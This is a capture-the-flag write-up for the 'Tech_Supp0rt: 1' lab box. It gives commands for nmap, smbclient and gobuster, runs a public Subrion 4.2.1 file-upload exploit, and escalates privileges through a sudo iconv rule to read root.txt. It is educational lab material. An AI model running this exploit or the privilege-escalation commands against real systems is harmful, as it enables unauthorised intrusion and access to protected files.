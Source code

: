 # Writeup: Tech_Supp0rt: 1

**OS**: 🐧 Linux

**Level**: 🟢 Easy

## 🔎 Enumeration:

Nmap scan:

```shell
nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan $TARGET
```

Result:

```
# Nmap 7.95 scan initiated Sun Sep 14 16:36:47 2025 as: /usr/lib/nmap/nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan 10.10.19.22
Nmap scan report for 10.10.19.22
Host is up, received user-set (0.088s latency).
Scanned at 2025-09-14 16:36:48 CEST for 103s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtST3F95eem6k4V02TcUi7/Qtn3WvJGNfqpbE+7EVuN2etoFpihgP5LFK2i/EDbeIAiEPALjtKy3gFMEJ5QDCkglBYt3gUbYv29TQBdx+LZQ8Kjry7W+KCKXhkKJEVnkT5cN6lYZIGAkIAVXacZ/YxWjj+ruSAx07fnNLMkqsMR9VA+8w0L2BsXhzYAwCdWrfRf8CE1UEdJy6WIxRsxIYOk25o9R44KXOWT2F8pP2tFbNcvUMlUY6jGHmXgrIEwDiBHuwd3uG5cVVmxJCCSY6Ygr9Aa12nXmUE5QJE9lisYIPUn9IjbRFb2d2hZE2jQHq3WCGdAls2Bwnn7Rgc7J09
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBClT+wif/EERxNcaeTiny8IrQ5Qn6uEM7QxRlouee7KWHrHXomCB/Bq4gJ95Lx5sRPQJhGOZMLZyQaKPTIaILNQ=
|   256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDolvqv0mvkrpBMhzpvuXHjJlRv/vpYhMabXxhkBxOwz
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s
| smb2-time: 
|   date: 2025-09-14T14:38:25
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25511/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 54632/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 62191/udp): CLEAN (Timeout)
|   Check 4 (port 35246/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2025-09-14T20:08:26+05:30
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 14 16:38:31 2025 -- 1 IP address (1 host up) scanned in 104.03 seconds
```

Since ports 139 and 445 are open i used smbclient to enumerate smb and found a file called `enter.txt` in the `websvr` share in which i found some credentials for Subrion: `admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk` and the hint that there is a `/subrion` directory on the webserver. I failed on cracking the password after a while i remembered a "magic recipe" mentioned so i throw the pw hash into cyberchef and i get the password `S*******` back.

```shell
smbclient -N -L 10.10.19.22

smbclient //10.10.19.22/websvr -U ''
```

On port 80 i found a webserver, which just presented me the default apache page so i started a directory bruteforce with `gobuster`. This gives me 2 directories `/test` and `/wordpress`. On `/test` i just found a site showing a sh*tload of uncloseable popups and nothing else. 

```shell
gobuster dir -u http://10.10.19.22/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -o gobuster_scan.
```

I have done also a `gobuster` scan on `/subrion` but had some issues with it. After a little bit research i found a `robots.txt` on `/subrion` which contains some useful stuff.

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

## 💥 Exploitation:

On `http://10.10.19.22/subrion/panel` i found a login form si i logged in with the creds from the smb share. Since im on a `Subrion CMS 4.2.1` i used `searchsploit` to look for exploits for this version. I found a authenticated file upload exploit which i tried. This gives me a shell as `www-data` but i could not change the cwd so i uploaded a reverse shell and started a `netcat` listener.

```shell
searchsploit subrion 4.2.1

searchsploit -m php/webapps/49876.py

python3 49876.py -u http://10.10.19.22/subrion/panel/ -l admin -p S*******
```

## 🔓 Priviledge Escalation:

Since there was a wordpress running on the server i used `find` to locate the `wp-config.php` which gives me the password `ImA***************`. I looked for other users in `/etc/passwd` and found the user `scamsite`. I tried to ssh in to the box as `scamsite` and the db password found in the `wp-config.php` and was succesful. `sudo -l` gives me `(ALL) NOPASSWD: /usr/bin/iconv` so i looked it up on [GTFOBins](https://gtfobins.github.io/gtfobins/iconv/). I was able to read the `root.txt` abusing `iconv`.

```shell
LFILE=/root/root.txt

sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

## 💰 Loot:

```shell
# root.txt
851b8233a8c09400ec30651bd1529b**********
```